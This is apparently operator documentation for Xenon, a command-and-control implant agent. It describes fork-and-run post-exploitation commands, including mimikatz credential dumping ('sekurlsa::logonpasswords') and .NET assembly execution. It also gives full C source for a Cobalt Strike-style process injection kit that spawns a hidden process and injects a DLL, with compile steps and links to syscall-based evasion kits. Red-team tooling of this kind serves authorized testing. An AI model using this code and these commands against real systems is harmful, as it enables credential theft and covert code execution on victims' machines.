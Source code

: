 +++
title = "Xenon"
chapter = true
weight = 100
+++

![logo](/agents/xenon/Xenon.png?width=600px)

## Fork & Run Commands
These commands spawn a sacrificial process to perform their actions and call `inject_shellcode` under the hood using donut-shellcode. 
They are compatible with Cobalt Strike's Process Injection Kits.

| Command                  | Usage                                                         | Description |
|--------------------------|---------------------------------------------------------------|-------------|
| `mimikatz`          | `mimikatz [args]`                                               | Execute mimikatz on the host. (e.g., mimikatz sekurlsa::logonpasswords) OPSEC Warning: Uses donut shellcode. |
| `execute_assembly` | `execute_assembly -Assembly [SharpUp.exe] [-Arguments [assembly arguments]]` | Execute a .NET Assembly in a remote processes and retrieve the output. OPSEC Warning: Uses donut shellcode. |

## Process Injection Kit
You can read about Cobalt Strike's Process Injection Kit [here](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5).
It allows the operator to modify the default behavior for Fork & Run post-ex commands. This provided the flexibility needed and allowed operators to Bring Your Own Process Injection.
Xenon's default process injection technique is the classic APC injection.
It follows a well signatured process of: `CreateProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`, `QueueUserAPC`, and finally `ResumeThread`.

### Bring Your Own Process Injection
The command `register_process_inject_kit` allows you to enable a custom process injection technique in the running payload. Process Injection Kit's are implemented as Beacon Object Files (BOFs) and uploaded through the modal.

Currently only **PROCESS_INJECT_SPAWN** is supported which spawns a sacrificial process to perform process injection.

Here is a basic example from [Cobalt Strike](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5):
```C
#include <windows.h>
#include "beacon.h"

/* is this an x64 BOF */
BOOL is_x64() {
#if defined _M_X64
   return TRUE;
#elif defined _M_IX86
   return FALSE;
#endif
}

/* See gox86 and gox64 entry points */
void go(char * args, int alen, BOOL x86) {
   STARTUPINFOA        si;
   PROCESS_INFORMATION pi;
   datap               parser;
   short               ignoreToken;
   char *              dllPtr;
   int                 dllLen;

   /* Warn about crossing to another architecture. */
   if (!is_x64() && x86 == FALSE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x86 -> x64");
   }
   if (is_x64() && x86 == TRUE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x64 -> x86");
   }

   /* Extract the arguments */
   BeaconDataParse(&parser, args, alen);
   ignoreToken = BeaconDataShort(&parser);
   dllPtr = BeaconDataExtract(&parser, &dllLen);

   /* zero out these data structures */
   __stosb((void *)&si, 0, sizeof(STARTUPINFO));
   __stosb((void *)&pi, 0, sizeof(PROCESS_INFORMATION));

   /* setup the other values in our startup info structure */
   si.dwFlags = STARTF_USESHOWWINDOW;
   si.wShowWindow = SW_HIDE;
   si.cb = sizeof(STARTUPINFO);

   /* Ready to go: spawn, inject and cleanup */
   if (!BeaconSpawnTemporaryProcess(x86, ignoreToken, &si, &pi)) {
      BeaconPrintf(CALLBACK_ERROR, "Unable to spawn %s temporary process.", x86 ? "x86" : "x64");
      return;
   }
   BeaconInjectTemporaryProcess(&pi, dllPtr, dllLen, 0, NULL, 0);
   BeaconCleanupProcess(&pi);
}

void gox86(char * args, int alen) {
   go(args, alen, TRUE);
}

void gox64(char * args, int alen) {
   go(args, alen, FALSE);
}
```
This example is essentially the same behavior as Xenon's default process injection method. It can be easily modified to change the injection behavior to something custom, and that's where the advantage is. Additionally, with `register_process_inject_kit` the injection behavior can be changed an infinite amount in the running payload without compiling a new payload.

You can compile this as a BOF with the following:
```
x86_64-w64-mingw32-gcc -o inject_spawn.x64.o -c inject_spawn.c 
```
Then register the new kit with the `register_process_inject_kit` command to the Mythic server. Now commands that call `inject_shellcode` will use your new process injection behavior!

### Examples
Here are some real-world examples of modified injection kits:
- [InjectKit](https://github.com/REDMED-X/InjectKit) - Indirect syscalls via the Tartarus' Gate method.
- [secinject](https://github.com/apokryptein/secinject) - Section Mapping Process Injection (secinject): Cobalt Strike BOF 
- [CB_process_Inject](https://github.com/vgeorgiev90/CB_process_Inject) - A simple process injection kit for cobalt strike based on syscalls 

